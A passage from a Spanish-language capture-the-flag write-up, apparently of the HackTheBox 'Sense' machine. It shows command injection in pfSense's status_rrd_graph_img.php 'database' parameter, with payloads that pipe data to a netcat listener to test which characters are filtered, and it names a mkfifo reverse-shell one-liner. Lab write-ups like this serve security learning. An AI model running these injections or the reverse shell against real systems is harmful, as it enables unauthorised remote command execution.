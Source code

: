 Ahora vamos a tratar de entablarnos una reverse shell; sin embargo, vemos que no podemos. Así que vamos a ver si existen caracteres que a la máquina no le gusta.

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo "a" | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 32368
a
```

Recibimos las letras, vamos con caracteres especiales:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo "-" | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

No recibimos nada, entonces al servidor no le gusta el "-" y los más seguro es que existan otros caracteres que no le gusten. Por lo tanto, vamos a ocupar el comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f` y validar los caracteres especiales, en este caso **/**, **;**, **\|**, **>** y **&**. Para trabajar un poco más cómodos, podriamos hacer uso de **Burp Suite** en la sección del **Repeater**.

![](/assets/images/htb-sense/sense-burp.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 3489
;
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 5406
|
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 48487
>
```
